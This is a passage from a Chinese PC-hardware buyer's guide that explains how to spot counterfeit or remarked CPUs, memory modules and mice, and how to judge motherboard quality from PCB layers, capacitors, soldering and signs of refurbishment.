其次，正品的盒装包装正面左侧会有一个防伪标记，呈圆形，分为两部分，上部分是全息防伪贴纸，是一个科学家手捧晶圆的图像，下部分标明的是处理器的频率（如图5）。上下部分之间肯定是衔接得非常完美的。假盒装的防伪图像显得模糊不清，上下两部分甚至出现大小不一、衔接不紧密的情况。下部分的频率标识有可能有两层乃至数层贴纸，这明显是重复使用。还有一点值得注意的是，正品盒装的CPU在纸盒一侧贴有序列号，通过对比盒子条形码上面的‘FPO/BATCH’可以发现处理器与包装完全一致。而假盒装序列号与处理器不能吻合；另外，部分假盒装甚至可能出现贴有多层序列号的情况，这种处理器必定是假盒装无疑（如图6）。

第三就是从散热器去辨别，现在有些奸商会把P4原装的散热器取出来换成别的，从而减少成本。由于现在的P4都是采用Prescott核心的，发热量较大，因此Intel随盒装处理器搭配了可以四面吹风，带铜芯的散热器以满足散热需要。假盒装采用了与以前奔4处理器散热器类似的散热器，只能两面吹风，且不带铜芯，根本不能及时散去热量。不过部分假盒装的散热器也是沿用了正品的散热器，这样的假盒装在散热上倒是没有任何问题。


最后我们还要留意盒装CPU里面的说明书，里面包括英、俄、德、简体中文、繁体中文等12种语言和文字，此外新版的Prescott处理器还会附带一份同样由多国语言写成的建议采用38度机箱的描述。如果种种方法之后你还无法确定这是否正品CPU，最佳的方法就是打Intel的800免费查询电话直接问个究竟，看CPU和散热器是否正品了。

#### 3. AMD低端CPU辨真假

AMD的CPU可以说是被Remark的始祖了，很多朋友就是从AMD开始认识Remark这一造假手段的，目前市场上同样存在着很多经过造假的AMD CPU，一般来说都集中在低端的Barton上面。包括正品在内，Barton在市场上其实一共存在着三种产品：

- #### (1) 正品
原装正货，这种CPU的价格往往较高，和经过造假的CPU相比贵了至少60元，对于商家来说利润很低，因为装一台机器赚的钱也不过1~200左右，因此经营这类CPU的经销商普遍反映销路并不是很好。

- #### (2) Remark的产品
这种产品在很早已经就已经出现了，一般是简单地使用银漆将L2金桥连上，就可以打开屏蔽的256KB缓存，将一块Thorton核心XP2000+改为Barton 2500+，然后通过易碎标签盖住修改过的部分，就可以按照正常的Barton 2500+售出。这里我介绍一下如何辨别这种类型的假冒CPU。

首先我们要知道，在AMD处理器上有一些被称为金桥的金属点，实际上这些金属点就是设定CPU主频的跳线，通过不同的断开或连通的设置，就可以实现对CPU倍频的设定，而正是因为AMD的这种倍频设置方式，给奸商们创造了不少造假的机会。而之前市场上出现的Remark产品多可以从金桥的切割工艺上明辨是非，正品的激光枪切割是非常工整且精细的，而相反赝品则显得较为粗糙，甚至很容易就被用户看出区别。除此以外，处理器正面的编号铭牌也是一个相当明显的辨别途径，由于赝品的铭牌是在原有基础上重新制作的，因此无论是铭牌的厚度，还是刻字的字体和深浅都会有所不同，初期还出现过缺少花形防伪图案甚至字体掉色的抽劣现象，对于觉得金桥辨别法较为复杂的用户可采用该方法。但随着造假者的手段再度升级，以上两种常规的真假辨别方法已经越来越不适用于最新的Remark产品，近期出现的一种Remark产品就完全不能用以上两种方法来辨别，因为从外表上看，假货和真货是完全一样的！当然，我们还可以从一些细微的地方辨认出来。


首先，造假的CPU主要是Barton 2500 +，而且都是绿色基板，产品批号为0340，产地来自马来西亚（如图7）。这是因为绿色基版的超频性要优于黄色基版，因此奸商们就利用该特点来吸引消费者，如果大家购买到的Barton 2500 +属于绿色基版，那就要打起十二分精神，不要偏信奸商们的花言巧语。

- 步骤一：
看CPU左上角金桥L3和L12。可以很清楚地看到L3和L12有4处有动过手脚的痕迹，不过这些痕迹如果不小心看很难发现，由于很多购买Barton 2500 +的消费者多是看L1金桥部分，L1底下的金桥很少有人会留意，L3和L12金桥的主要作用是定义CPU的倍频，Remark产品即强行定义为11倍频（如图8）。

- 步骤二：
看CPU右上角金桥L9。以前赝品主要是通过修改L2金桥来增加二级缓存，由于现在AMD推出了很多新的基版，L2金桥不再是唯一定义缓存的金桥，L9金桥也能够起到该作用，所以奸商们就从L9金桥下手，可以说现在L9金桥的修改和以前L2金桥大同小异（如图9）。

- 步骤三：
看CPU右下角金桥L11。该L11金桥的修改是非常隐蔽的，部分赝品只是通过修改L11金桥而来，L11金桥主要作用是定义处理器外频，通过修改该金桥，可以强行使低外频的266MHz升为高外频的333MHz甚至400MHz（如图10）！

这些真假难辨的CPU主要是从AMD正规工厂淘汰下来的次品，而当时它们还没有被锁定金桥，也就是说该批处理器还尚未安置金桥。之后该种处理器通过一些不正规的渠道传出去，奸商们通过对这些CPU进行测试，确定每颗所能达到的最高主频，再采用与AMD正规工厂相同的技术进行切割，从而设定CPU的倍频，最终以真品的身份流入到最终零售市场中。重要的是，由于出厂时AMD还尚未得及对其进行任何具有防伪意义的标识，因此加工厂可以轻而易举地进行彻底模仿，而相同的切割工艺也使用户唯一能够用以识别真伪的手段显得毫无杀伤力。大家购买的时候一定要小心再小心，避免在一些无背景不知名的小商家购买，买了也还要进行长时间的运行和超频测试！

- （3）白版CPU
这种产品是目前最常见的，也是最容易被造假的产品（如图11）。市面上有种说法说这些白版是一些有部分缺陷的CPU，从工厂淘汰下来后有人统一收购，然后以低于市场价格30～40元出售。但这些所谓有缺陷的CPU在使用过程中与其他CPU并没有什么不同之处，可以看到图12的白版CPU核心左下角是有缺口的。如果说商家直接把这些白版当作残缺品低价卖出去也就罢了，偏偏有部分商家不是这样。而且市面上还有另外一种白版CPU，这种CPU并没有经过AMD工厂正常测试，而是通过一些特殊的渠道，将已经生产出来但还没有测试的CPU买进，自行检测，找出合适的频率修改切割，最后印刷。这些奸商有自己的工厂，所做出来的CPU因为是一次成型品，并不牵扯什么金桥的问题，所以说这类CPU已经无法辨别出是否真品，这也是经销商与代理商还有消费者最头疼的地方。

面对如此多的假货，这里建议大家，买AMD的CPU，最好还是购买盒装产品，目前在市面上的AMD盒装产品中还没有见到被假冒的，不过以防万一，我们可以选购贴有红色防伪标签的AMD盒装处理器，譬如“神州数码DIY”，我们就可以通过中国质量检验协会提供的短信系统（移动用户发送到80028315，联通用户发送到90028315），输入处理器包装盒上防伪标签涂层下的序号，即可得知此产品是否为原装的，从而初步判断盒装处理器的真伪。然后还可以拨打代理商的服务热线，输入AMD处理器芯片表面上的条码数字，从而明确得知处理器的真伪。另外选购盒装还可以享受三年质保，可以说是相当不错的选择。

### 二、内存辨真假

内存是除了CPU之外存在最多假货的另一个装机核心配件，相信很多朋友都会有因为自己无法辨认真假内存而不敢贸然出手的经历，事实上只要我们多加注意，然后多上网看看，还是可以学会如何去辨别假内存的。

#### 1. 金士顿（Kingston）

金士顿应该是目前受假货和水货侵害最严重的内存品牌了。几乎每年金士顿都会花费很多精力在打假防伪技术的改进上面，但即使如此，金士顿的假货销量还是居高不下，道高一尺魔高一丈这句话用在金士顿身上最合适不过了。而近年金士顿在其原有的荧光防伪技术前提下，对其防伪技术进行了大升级。下面就来看看如何辨认真假金士顿：

- 第一：
金士顿产品中国区总代理恒盈科技为了彻底地打击市场上的假货内存条，在新的“数码凹版”防伪标签中，采用了人民币防伪技术的其中两种，即“凹版防伪”和“纹理防伪”，以提高产品防伪能力，把最先进的防伪技术用于内存上，通过最简单的辨别方法就可识别真假。凹凸版防


防伪技术是人民币纸币上采用的特有印刷技术，使用者通过触摸印刷图案有明显的凹凸手感。恒盈科技“数码凹版”防伪标在标签的上半部分采用此凹版印刷技术，用户在购买贴有“数码凹版”标签的KINGSTON产品时，用手触摸的手感可直观地辨出产品真伪。而且“数码凹版”防伪标签的上半部分还采用了视觉折射不同图案来防伪。用户在购买贴有“数码凹版”标签的金士顿产品时，可从不同的角度折射出两组图案：一组图案是恒盈科技LOGO标志的“竖立椭圆”形，另一侧可以看到“HENGWIN”字样（如图13）。


- 第二：
另一家金士顿内存代理商赞禾电子则采用了类似的“纳米折光”防伪标，全新的“纳米折光”防伪标的最大好处就是无需任何第三方鉴别工具，不用电话不用短信，仅仅通过用户目测，就可以在第一时间准确地辨别金士顿产品真伪。“纳米折光”防伪标采用了业界独一无二的纳米玻璃微晶折射光线的技术，在不同的光线角度下展现不同的文字及图案，有些类似传统的激光全息防伪标。但与传统激光标不同的是，“纳米折光”标绝无伪造的可能，因为只要把防伪标转换个角度，就能看到正面的“真品保证”变成"JH800-820-1399“的图案，十分简单（如图14）。


- 第三：
购买内存时应观察查看PCB板和产品规格标签上的4位数字是否一致以及人像防伪区从不同角度观察能否变色，如果标签数字不一或者人像防伪区不能变色则为假货。

- 第四：
我们还可以到代理商去查询产品的真伪。由于800免费电话只能固话拨打，因此手机用户可以拨打400-820-1399进行防伪查询，并且只需要付本地通话费用，免去了高额的长途通话费用。电话拨通后你可以听到欢迎致电骏禾Joint-Harvest免费服务热线。有些假冒的800电话中是不会提及您所查产品的出处和公司名称的。另外我们可以登陆www.8008201399.com网站进行查询，查询结果和800电话系统完全同步。

#### 2. 宇瞻（Apacer）
作为全球知名品牌，宇瞻新推出的“金牌”内存受到了广大用户的喜爱，它采用了密封透明外壳包装，除了对产品起到保护作用，同时防止产品被打开后再冒充新品出售的情况。透过透明包装可以直接看到产品的型号和规格，消费者能直观地查看产品是否符合自己购买的标准（如图15）。另外“金牌”内部则采用了全密封防静电全新包装，能够做到安全绝缘。同时加贴在产品末端的芯片上的金色Apacer标志是金牌内存产品的重要特征之一（如图16）。因此消费者在购买宇瞻金牌内存时，一定要认准金色Apacer标志。


#### 3. 威刚
作为全球第三大自有品牌内存及第五大闪存生产厂商，威刚的内存自然也受到了奸商们的重点照顾。目前威刚内存中造假和水货率比较高的就是“万紫千红”系列内存，我们可以凭借以下的方法来辨认威刚是否原装正品（如图17）。


- 第一：
从包装上来看，水货与正品两者有较大的区别。水货包装上内存系列称为“绿色魅影”，而威刚在中国市场推出的内存只有“万紫千红”V-DATA和“红色威龙”A-DATA两个系列，从未推出过其他名称的内存。

- 第二：
在中国大陆销售的正规“万紫千红”系列内存，所采用的PCB板都为紫红色（万紫千红因此得名），而水货的PCB板为绿色板。“万紫千红”内存的中间部分有烫金的“V-DATA”字样，字迹清晰不易脱落，而水货内存没有该字样，或者为“A-DATA”字样；

- 第三：
在购买威刚内存时，留意正品内存上有威刚的防伪贴纸，“万紫千红”系列为“V-DATA”红色贴纸，“红色威龙”为“A-DATA”蓝色贴纸；威刚的A-DATA和V-DATA两个系列的内存，在产品上都有大陆市场的特殊CRL黄色标签，上面有特制防伪标识，每条内存上读取的识别信息都是唯一的。若消费者受不法商人误导购买了没有CRL标识的内存而出现故障，将无法享受到威刚科技承诺的售后服务。


- 第四：
在售后服务上威刚行货正品内存A-DATA系列提供五年保换终身保固的服务，V-DATA系列也能享受三年保换终身保固的服务，而水货假货无法享受该售后服务条款，如果购买时对商家服务承诺不放心，对手中的威刚内存有疑惑，可以拨打威刚科技免费热线800-820-0522或021-62196716咨询。

#### 4. Kingmax (胜创)
现在的内存市场上，KingMax（胜创）的假货也比较多，不过辨别起来比较容易，这是由于KingMax采用了特有的芯片防伪技术——关公红芯。KingMax推出的“关公红芯”防伪技术是在PCB板正面第四颗颗粒的位置设定了一颗采用Kingmax全球独家专利的TinyBGA封装技术的红色Coding颗粒（如图18）；其次，特殊应用的芯片内加入了ID CODE（全球统一识别码），使得每一条内存均具有唯一性。由于其独特性，很少有假货能够在外观上完全进行仿冒。此外，KingMax内存采用的TingBGA彩色封装技术也是KingMax独家拥有的专利技术，TingBGA使产品具备了不可复制性。仅仅一个BGA封装技术，假冒者要想进入至少要花费一亿元人民币，这也是让假冒者知难而退的重要原因，而且KingMax还提供了800免费电话查询验证，所以我们只要认准了KingMax的包装和外表就可以比较容易地避免假货了。


#### 5. 三星金条
虽说三星金条的市场占有率不高，但是假货可不少，一般我们可以从几个方面识别三星金条是否为正货：

- 第一：
看产品标签，三星金条的型号标签位于内存产品的左起第一、二颗粒位置，为白色特殊纸张的贴纸，无法轻易完整揭下，印有产品的型号、容量、工作频率。

- 第二：
看防伪标签，三星金条的防伪标签位于内存产品的右起第二颗粒位置上，金色的雷射标签上印有“三星金条”的LOGO。

- 第三：
如果是原装原厂的三星内存，芯片表面一般都很有质感，要么有光泽或荧光感，要么经过了哑光（如图19）。


- 第四：
正品的三星金条的PCB表面应光洁、色泽发灰、元件焊接整齐、焊点均匀而有光泽，边缘整齐而无毛边，同时还印有“Samsung”LOGO。

- 第五：
要看内存正品的话那么看金手指是少不了的了，三星金条的金手指要光亮，不能有发白或发黑的现象，发白是镀层质量差的表现，发黑是磨损和氧化的结果。

- 第六：
看包装，原厂三星金条采用透明大盒包装，包装内附有三星金条说明书和全国首家推出的电子保修卡（如图20），而假冒的三星内存则没有。

#### 6. 散装HY (现代)
现代的内存条可以说是市场占有率最高的内存了，不过HY的假货也是市场中最多的，大部分假货都是用假的HY内存颗粒来代替真的HY内存颗粒，甚至就是在一些家庭作坊打磨出来的。由于散装现代内存条出货量太大，很难有一个统一的标准来识别真假，因此只能从芯片来作鉴别。首先真的现代内存条上贴的是原厂标签，而假的是普通贴纸；真的现代内存芯片在整条电路上的排列是无间隙排列，假的则有明显间隔；真的现代内存芯片从背面可以看到圆形凹槽，假的现代内存芯片背面则是三个呈直线排列的圆形标记。真的现代内存芯片左下角有一个圆形凹槽，右下角也有一排稍暗的印字，这些特征假芯片都没有。真的现代内存芯片上的字迹清楚，而假内存芯片上的字迹边缘不清晰，有的有毛刺。购买时只要仔细观察，应该可以辨别出来的。

#### 7. 原装现代 (Hynix、海力士)
Hynix原厂内存在市场上比较少见，原厂的内存使用了宽版设计并非兼容条的那种常规内存PCB，并且原厂的PCB中有明显的标注着“现代 韩国”，假的则没有。内存的背面采用了大面积覆铜设计，走线行云流水，各条线路之间都存在着一定的距离，而假条子使用了最为普通的底板，电容电阻稀稀拉拉只有几个。再者，内存颗粒中的激光印字非常清晰，这点通过手摸以及眼看就可以进行分辨，假的原厂条上的字是印上去的，手感有明显区别。另外，内存SPD旁边有制造商以及产地名称，而假货上一般是没有的。

#### 8. 易胜 (Elixir)
南亚科技是一家台湾公司，旗下的易胜内存是内存市场上属于新生代的代表，虽然比不上金士顿这样的传统大品牌，可是易胜内存在市场上也存在着很多的假冒现象。要辨别真假易胜内存的方法非常简单，南亚科技与中国地区代理商“讯宜国际”共同合作全面启动了激光防伪标签和“实体防伪”的理念，用户购买时只要直接辨识易胜内存的激光防伪标签与实体防伪等手段就可以随时随地辨别易胜内存真伪，从而有效保护自身的合法权益。同时易胜内存全面并更换新精美包装，进一步与假货之间形成显著的区别。如图21就是四个比较明显的区别假货的标记。


#### 9. 黑金刚 (KingBox)
黑金刚正品非常好识别，它的产品采用了一面深红色，一面紫色的配色方案，连正面的铭牌也如此，独此一家别无分号，内存条除了背面的金属“黑金刚”字样之外，正面多处有细小的“KINGBOX”金属字样（如图22）。而且，正品的黑金刚有一张保修卡，假的则没有。


刚最具吸引力的就是它售后服务的承诺非常好：三年包换终生保修，而且只要不是人为损坏就全免费！所以我们在购买的时候可要非常仔细了。

### 三、鼠标辨真假
鼠标的仿冒其实由来已久，由于鼠标、键盘的技术在电脑配件中含金度是最低的，因此仿冒起来也相对容易，从机械鼠标的年代开始，已经是假货满天飞。时过境迁，光电鼠标已开始普及，这个时候仿冒品又开始活跃了起来。因此我们不得不把自己武装起来，不轻易上奸商的当。

#### 1. 罗技劲貂
做为一个知名品牌，罗技劲貂价格低廉，而且还是光电的，因此受到相当多的用户喜爱，但是市面上目前活跃着一种假冒的罗技劲貂，只要不到70元的价格，如果是低价货的话真假还好说，但不排除有些奸商把假货当作真货卖，那就相当可恶了。

- 第一：
看产品包装。真品的盒子上面的“optical USB”图标颜色要比假货的颜色淡一些。产品背面的“optical USB”文字也是一样，但必须要真品盒装才方便进行对比。

- 第二：
真罗技光电劲貂的外壳表面光滑细腻，在一定角度下可以反射光线。而假劲貂的外壳较为黯淡，且质感有些粗糙。

- 第三：
真劲貂的罗技logo颜色较浅，而假货的颜色就深得多，这一点大家比较容易分辨。

- 第四：
真品鼠标的一侧有罗技公司贴的彩色防伪标贴，揭开标贴后拨打800电话就能查询产品的真伪（如图23）。


- 第五：
真罗技光电劲貂底部的垫脚是透明的（采用特富龙材质，结实耐磨），而有些假货的垫脚是白色的，使用一段时间后就会磨掉。

- 第六：
罗技鼠标所用的螺丝是亮银色的，金属质感很强。而假货使用的螺丝则发白，金属质感较差，如图24所示为假货的螺丝。


假如这样您还是无法分辨的话，那就安装罗技最新版本的驱动程序，如果是真罗技鼠标，罗技的驱动程序就会自动识别产品，而假货则不会识别出来。通过上面的方法，一般我们就能分辨出产品到底是真品还是假货了。

#### 2. IBM鼠标
IBM 的鼠标一直以来都以人性化、高质量得以闻名。但是市面上的IBM鼠标中有相当一部分是造假的（如图25），它的仿冒水平可以说相当高超，没有使用过真品的朋友摸过之后一定会误以为是真品。但是假货厂家终究没有国际大厂的实力，导致了这款产品的涂层非常容易磨损。如同所有的仿冒产品一般，左右两键与滚轮之间的缝隙非常明显也比较容易松动，并非原厂产品那么紧凑，线缆的质量当然也不会很好了。不过鼠标的铭牌部分则仿冒得惟妙惟肖，几乎可以以假乱真。这款产品的仿冒货色通常卖价都非常低廉，在30~50元之间。但我们并不能片面地用价格来对这款产品进行判断。最重要的一点就是，目前IBM的鼠标并没有所谓的工包，也就是说真品一定是有盒子的，且盒子的质量、包装都非常的正规，让你一看就是大厂所为。首先是很少见白色IBM字样的产品出现（白色仅仅存在与早期的高端产品当中）。其次IBM的LOGO肯定不会东倒西歪，出现文字不平衡等问题。至于IBM产品的铭牌，惯用带膜的纸作为铭牌材料，黑色的纸之上所附带的膜是比较结实的，一般磨擦不会破损，购买的时候可以稍加留意。


#### 3. DELL鼠标
目前市面上有DELL的鼠标出售，实际上是罗技OEM的产品，性价比十分高，很多朋友都抢着买。但事实上目前市面上这类鼠标都是翻新的，因为2003年6月DELL已经停止出售该款鼠标，时隔一年怎么还会有新品呢？我们可以看看如图26的翻新货的庐山真面目。这批货之所以被翻新，完全是因为罗技代工之后，被不法奸商乘机而入，曾经一段时间在市面上有一大批联想的光电鼠标，与DELL一样同为罗技代工，这也给翻新者带来了机会。


工业包装袋的，而且在袋上拥有每个鼠标独有的SN序列号。这一点仿冒厂商不可能进行仿造，成本比较大（如图27）。另外DELL的LOGO它的E字比较独特，使用了45度旋转的方式表现出来的，假货再进行仿制的时候肯定不会做得这么准确，只要我们多看看DELL的LOGO，就可以将它的LOGO熟悉了。


#### 4. 双飞燕鼠标
双飞燕鼠标可以说是市场上受假货之苦最深的品牌，各种奸商都把魔爪朝它伸过去，因此要购买正品的双飞燕，我们需要注意下面的几点：

- 1. 第一：
采用“镭射A4商标脆性加密防伪”的双飞燕鼠标已经在2000年5月就截止了，也就是说如果您现在买到的双飞燕依旧采用这种“镭射A4商标脆性加密防伪”技术的话，几乎可以断定是假货。现在的双飞燕鼠标在彩盒正面都有一长方形小块的黄底黑字的“本产品电码防伪”的醒目标志，而在鼠标底部，贴有一圆形的印有“A4”商标的标贴，揭开这个标贴会出现20位鼠标防伪身份码，拨打表层提示的800-8285315免费电话，根据电话语音提示，输入这20位鼠标防伪身份码，按#号结束。如果你的身份码是正确的，很快就会听到“您所查询的产品是东莞市众誉电子有限公司生产的正牌产品，谢谢您的使用。本次查询完毕，如有疑问，请拨打咨询电话025-4315365，再见。”重要的是每一只鼠标仅有一个身份码，每个身份码只能查询一次，如果身份码已经被查询过，那么就必定是假货了。另外双飞燕的产品还有一种“数码防伪”，它在原来的基础上仅修改了电话号码，而操作方法和语音提示一样，现在的身份码免费输入电话是800-8289315、咨询电话是025-3682686。

- 2. 第二：
在打电话辨真伪的同时，我们还应该注意鼠标上的一些细节，譬如彩盒上有“中国物品编码中心”认可备案的条码标志，和带厂址、厂名、品名及经技术监督局认可备案的生产标准号：Q/ZY 1-1999。每只鼠标底部都有产品型号贴纸和“合格检封”贴纸，OK系列2D产品的包装盒内附有小广告“数码防伪”使用说明一张。

- 3. 第三：
在制作工艺方面，正品鼠标外部和内部之制造工艺非常精细，无粗制滥造之迹。鼠标外壳的商标印刷清晰光洁、无双影毛边模糊；塑胶品组合严谨、接缝均匀；电路板的零件排列规范、采用标准焊锡点、板身整洁干净；鼠标连接线的头部刻有“A4”图案、并且线材内部之每条铜芯线均有增加抗拉强度的尼龙丝。正品的外包装相当精美，彩盒、说明书、彩页、小广告页之图案成像（特别是鼠标图案之网点成像）光洁细腻、颜色有层次感无阴暗、清晰度高、无色斑色差色纹，而且印刷字体清楚、无模糊。

## 轻松辨别板卡的优劣
文 / 水月子

当我们学会如何辨别CPU、硬盘、内存的编号时，可以说我们已经在硬件辨识方面入门了；但是这样还不够，作为一个能够自己进行装机的电脑爱好者，我们应该拥有能够分辨板卡性能优劣的能力。不要以为这是很难的事情，其实各种板卡的做工都是摆在那里的，不需要拉出去遛遛已经可以知道是马还是骡子了。

### 一、辨别主板的优劣

#### 1. 分辨PCB板的优劣
我们平时在看主板的时候，都会听到一些“行家”说道某主板的PCB是6层板、8层板，质量不错够稳定，某主板只是4层板，偷工减料了云云，但是PCB板在大部分人的眼中只是薄薄的一块电路板而言，我们是怎么样去分辨它的层数的呢？PCB的层数和主板质量的关系又是如何的呢？

首先PCB板本身的基板是由绝缘隔热并不易弯曲的材质所制作成的，我们在PCB的表面可以看到的细小线路材料是铜箔，原本铜箔是覆盖在整个PCB板上的，而在制造过程中部份被蚀刻处理掉，留下来的部份就变成网状的细小线路了。这些线路被称作导线或布线，并用来提供PCB板上零件的电路连接。通常PCB板的颜色都是绿色或是棕色，其实上面涂的颜色其实是阻焊剂的颜色，它的主要作用就是防止在长期使用中因线路氧化、腐蚀引起的故障。在涂好阻焊剂后，为了保证主板表面光滑美观，都会进行一次清洗工艺，好的主板清洗工艺比较好，摸上去都不会有粘手的感觉。

但现在主板和显卡上都采用多层板，大大增加了可以布线的面积。多层板用上了更多单或双面的布线板，并在每层板间放进一层绝缘层后压合。PCB板的层数就代表了有几层独立的布线层，通常层数都是偶数，并且包含最外侧的两层，常见的PCB板一般是4～8层的结构。但我们要知道主板一般只有一面焊接电子元件，中间的两层或者多层是供电层和屏蔽层，主板的层数越多表示其生产工艺和设计就越复杂，6层板会有更好的电气性能和抗电磁的能力，但其生产成本就更高，同样厚板也是质量好的保证。因此我们选择的时候就要尽量选择PCB层数较多和厚板的主板产品。可以说层数越多，布线就越先进，主板也具有更好的稳定性。很多PCB板的层数可以通过观看PCB板的切面看出来。但实际上很少人有这么好的眼力（如图1）。因此我们可以通过特殊的方法来辨认。

首先，我们要了解到多层板的电路连接是通过埋孔和盲孔技术，主板和显示卡大多使用4层的PCB板，也有些是采用6层、8层，甚至10层的PCB板。要想看出PCB有多少层，通过观察导孔就可以辨识，导孔就是在电路板的各条布线的顶端那些空心的校圆孔。由于在主板和显示卡上使用的4层板是第1和第4层走线，其他几层另有用途（地线和电源），所以同双层板一样，导孔会打穿PCB板。如果有的导孔在PCB板正面出现，却在反面找不到，那么就一定是6/8层板了。如果PCB板的正反面都能找到相同的导孔，自然就是4层板了。有时候我们也可以将主板或显示卡对着光源，如果导孔的位置能透光，就说明是6/8层板；反之就是4层板了。


#### 2. 分辨主板优劣的其他因素

##### （1）CPU供电电路
电脑的原动力来自电，那么主板的供电部分自然成为了人们所关心的焦点，其中常听人提起主板的供电电路是“两相”还是“三相”的？就属于我们这个话题的范畴之内。其实它是指为CPU提供电流的供电电路是由几组供电模组构成，原则上来讲，供电模组越多，提供给CPU的电流越纯净也更加稳定，也就更利于超频。随着CPU功耗的逐步增加，一款P4 2.0GHz的CPU功耗大约为80W，也就是需要主板需要提供45～50A的电流。如果这么多的电流由两组开关电路提供，每组分担约25A左右，这样的供电电路即被称为“两相供电”；如果由三组开关电路提供，每组分担不到20A，这就是“三相供电”。

##### （2）电容（如图2）
电容作为主板上主要的滤除干扰和稳定电压的电子元

件，它的质量直接影响到主板工作的稳定性。同时电容质量也直接影响着主板的寿命。首先是看电容的使用温度，一般有85℃和105℃两种，不过现在一般都是105℃的电容，你要是主板上电容是85℃，那这款主板的质量就很差劲，电容所标注的使用温度越高，电容的漏电流就越小，其稳定性越好。其次看电容的生产厂家，比如说最好的电容生产厂家是蓝宝石(Rubycon)，另外还有SANYO OTS等。举个例子，一般OST电容只能在105℃的极限温度下使用1000小时，而红宝石电容可以使用6000小时以上。尽管这是一个极限温度，但是从大量的数据来看，使用高品质电容的主板要比低劣电容的主板寿命至少能延长2年。无论主板散热技术怎样进步，在它工作的时候总会持续不断地发出热量，因此包括电容在内的主板上各个部位上元件的品质的好坏从某种程度上直接代表着主板的耐高温性能。电容爆浆是比较常见的问题之一，品质不良的电容在使用过程中容易出现爆浆的问题，到时候主板就无法使用了。另外好的主板的电容应该比较多而且容量比较大，特别是在CPU插座旁边的电容，那种100微法以下的小电容焊得到处都是的情况一般都属于杂牌主板的典型工艺。由此可见电容品质对主板寿命及稳定工作有着重要的影响，电容甚至也成为辨别主板质量好坏的一个重要标志。因此在选择主板产品时一定要认清主板电容的一些技术规格及品牌，一定要选择使用大厂家电容产品的主板。

##### （3）焊接和布线工艺（如图3）

这是主板表面做工好坏的最直接表现，也是判断主板好坏的一个比较传统的做法，因为只有精细的做工才能带来高品质。由于主板都是把电子元件焊在一面，因此看焊接工艺的好坏要看主板背面的焊点，好主板背面的焊点一定是干净整齐，同类的焊点绝对不会出现有高有低的现象，也不会有残余的焊锡和两个焊点粘连在一起的情况。还有一个就是看主板的布线，好的主板的布线应该比较有规则，布局也非常合理，看起来赏心悦目，从设备到控制的芯片之间的连线是尽可能的短，这样能够减少主板运行的时候所受到的干扰。

##### （4）插槽和插件（如图4）

主板上搭载的各种插槽及插件对主板来说也是非常重要的，插槽指的是内存插槽、AGP插槽、PCI插槽以及CPU插座等，插件主要是声卡输出／输入接口、打印机接口等后置面板上的接口等。主板插槽如果质量不过关就会引发很多问题，如插上内存、显卡等出现报警，CPU不能加电等，而你把它们拔插几次就会没有问题，但是当你以后使用中经常拔插几次有可能会出现金属簧片损坏的情况，到时候主板可就报废了。对于这些插槽及插件产品一定要找是不是AMP、FOXCONN大厂的产品，而且在产品上面都能找到其清晰的商标，而小厂的产品一般都没有标志。

##### （5）保险电阻（如图5）

保险电阻起到了相当于保险丝的作用，同时其自身有一定的阻值，能限制电流的大小，可以使电脑主板具有自我恢复的功能。当通过这个保险电阻的电流过大时，电阻就会熔断从而阻止电流的通过。当故障排除后，又会自动恢复让电流通过，这样一来就提高了主板工作的稳定性。这种保险电阻常常被设计在键盘鼠标接口、USB接口、显卡、串口、并口线路中。我们在选购主板时一定要先看看主板是不是使用了保险电阻，是不是在一些地方省掉保险电阻。如果你在主板上看到标有“Fx”（x表示数字）的地方，被用导线直接连接到一起，这说明主板厂商为了节省成本，把保险电阻给省了，如果一个保险电阻没找到，那这块主板肯定不能要了。

#### 3. 分辨过期返修主板

现在不少奸商会将返修品当新货卖，对一些没有经验的用户而言很容易上当受骗，因此我们需要知道如何辨认这些翻修主板。一般来说，翻修的主板都会有以下的现象：

##### 现象一：PS/2口磨损

由于该接口一般比较紧，键盘鼠标多插拔几次后，必然会有明显的磨损现象，而这种磨损除了更换接口外，是不可修复的，所以很容易看得出来。

##### 现象二：I/O接口氧化

如果该返修板使用时间较长的话，I/O接口应该会出现氧化现象，虽然可以使用一些除锈剂将其去除，但还是难免留下一些蛛丝马迹，只要仔细观察，应该可以看得出。这种方法对显卡等有金属接口设备的鉴别同样有用。

##### 现象三：螺丝孔磨损

在安装过程中，主板的螺丝孔很容易受到磨损，即使一些细心的技术员会在螺丝孔正面加上一层垫片，但是螺丝孔的背面却一样会同出同样现象，虽然只是轻了一点，但还是可以分辨出来。

##### 现象四：化学剂气味

新的板卡出厂前都要经过洗板这道工序。过程大致上是通过使用化学溶剂洗去零件焊接时留下的如焊锡之类的杂物，以避免主板发生短路等。新的板卡一般会有洗板时洗板剂残留下的化学气味，用鼻子很容易闻到。而返修板经修理后，一般不会再经历洗板的过程，所以正常情况下是不会有那种气味的，用户在鉴别返修板卡时，不妨用鼻子闻闻。

如果我们买主板的时候上面四点都没有看出破绽，那么最后我们可以核对序列号。大多数名牌产品都会在盒子、保修卡和主板上贴上序列号。代理商进行返修时很少会将盒子连同板卡一起返厂，因此只要不是厂家自身的猫腻，返修的主板一般很难与盒子或是保修卡上的序列号对上号，这是鉴别返修品的关键所在，我们在购买主板时如果遇上对不上序列号的情况，记得一定要求商家给予更换或退货。

### 二、识别内存的优劣

在选好了主板之后，接下来我们就要选择内存了。对于大部分人来说，要想提高系统的整体性能，升级内存可以说是首选的方法，但是现在的内存市场上充斥着众多的假货劣货，打磨、二手条等情况屡见不鲜。很多人都会对内存的金手指、颗粒上的LOGO进行仔细检查，但是这些“粗略”的方法只能大致检验真伪，并不能很好识别出某款内存的质量好坏，因为每个品牌的内存每批生产用料有时也不一定相同，成品当然也有优劣之分，可它们在销售时，商家又不会注明优劣等级，所以这就需要您自己识别内存的优劣了。

#### 1. 内存的结构

在辨认内存优劣之前，我们应该看清楚内存的结构，现在主流的内存可分为DDR和DDRII两种规格，它们主要是由PCB板、存储颗粒、内存控制芯片等组成。而一条内存条上面除了这三者之外，一般还会有规格标识、SPD、防伪标识、金手指等帮助我们判断内存的优劣（如图6）。而我们要衡量内存的质量主要从整体设计、金手指、制造工艺三个方面来下手，至于内存颗粒的封装方式，只是和内存的散热、性能有关，和内存质量本身并没有关系，所以在这里就不多说了。

#### 2. 内存PCB的设计

